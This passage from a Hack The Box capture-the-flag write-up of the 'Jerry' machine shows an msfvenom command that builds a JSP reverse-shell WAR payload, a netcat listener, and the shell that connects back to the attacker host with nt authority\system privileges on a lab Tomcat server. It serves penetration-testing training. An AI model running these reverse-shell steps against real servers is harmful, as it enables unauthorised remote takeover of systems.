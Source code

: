 With msfvenom we create a war reverse payload file that we can upload on the manager web interface:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > jerryletmein.war
Payload size: 1089 bytes
Final size of war file: 1089 bytes
```

The war file contains a jsp servlet with reverse shell payload:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/jerry]
└─$ jar -tvf jerryletmein.war
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
     0 Wed Mar 10 13:15:24 CET 2021 WEB-INF/
   262 Wed Mar 10 13:15:24 CET 2021 WEB-INF/web.xml
  1496 Wed Mar 10 13:15:24 CET 2021 uxljpxfaudc.jsp
```

We open a Netcat listener on port 4444:

```
──(user㉿kali)-[~/hackthebox/hackthebox/jerry]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
```

Then we surf to the following URL:

```
http://10.10.10.95:8080/jerryletmein/
```

The Netcat listener is answered by a reverse shell, and we also see we have system authority access:

```
──(user㉿kali)-[~/hackthebox/hackthebox/jerry]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
With system privileges we can access the flags on the machine:
